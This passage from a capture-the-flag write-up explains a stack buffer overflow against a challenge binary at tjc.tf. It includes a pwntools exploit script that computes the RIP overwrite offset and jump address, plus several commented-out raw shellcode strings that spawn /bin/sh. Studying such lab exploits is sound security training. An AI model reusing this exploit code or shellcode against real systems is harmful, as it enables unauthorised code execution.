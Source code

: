 To build our payload firstly we need to overwrite the RIP with the address of `buffer + 0x110` (or `272 (264 offset + 8 RIP)` in decimal). This is because if we jump straight to Initial address of buffer, there will be the address of our desire between the asm('nop') and our shellcode which is not a valid instruction so we have to skip over that. Here's a diagram I create to better visualise

<figure><img src="../../../.gitbook/assets/Untitled Diagram.drawio (5).png" alt=""><figcaption><p>Stack alignment after buffer overflow</p></figcaption></figure>

{% code title="exploit.py" lineNumbers="true" fullWidth="false" %}
```python
#!usr/bin/python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './chall'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
host = "tjc.tf"
port = 31365

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(host, port, *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *0x40124b
'''.format(**locals())

io = start()

# =========================================================
#                         EXPLOITS
# =========================================================
offset = 264
padding = (500 - offset)

jump = p64(int(io.recvline()[2:-1].decode(), 16) + 0x110)
# shellcode = b'\xeb\x0b\x5b\x31\xc0\x31\xc9\x31\xd2\xb0\x0b\xcd\x80\xe8\xf0\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'
# shellcode = b'\x4d\x31\xc0\x41\xb1\x3c\xeb\x1a\x58\x48\x31\xc9\x48\x31\xdb\x8a\x1c\x08\x4c\x39\xc3\x74\x10\x44\x30\xcb\x88\x1c\x08\x48\xff\xc1\xeb\xed\xe8\xe1\xff\xff\xff\x74\x0d\xfc\x74\xbf\xfc\x4d\x74\x0d\xc3\x74\x0d\xca\x33\x39\xd7\x2e\x74\x0d\xfc\x74\xbf\xfc\x07\x63\x74\x0d\xee\x6e\x6b\x74\xb5\xda\x33\x39\xd4\xd5\xc3\xc3\xc3\x13\x5e\x55\x52\x13\x46\x4f\x54'
# shellcode = b'\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05'
# shellcode = b'\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'
```

[^1]: basically an instruction that does nothing and will let us 'slide' down towards our shellcode
[^2]: Buffer size
[^3]: offset to overwrite RIP
[^4]: length of our shellcode
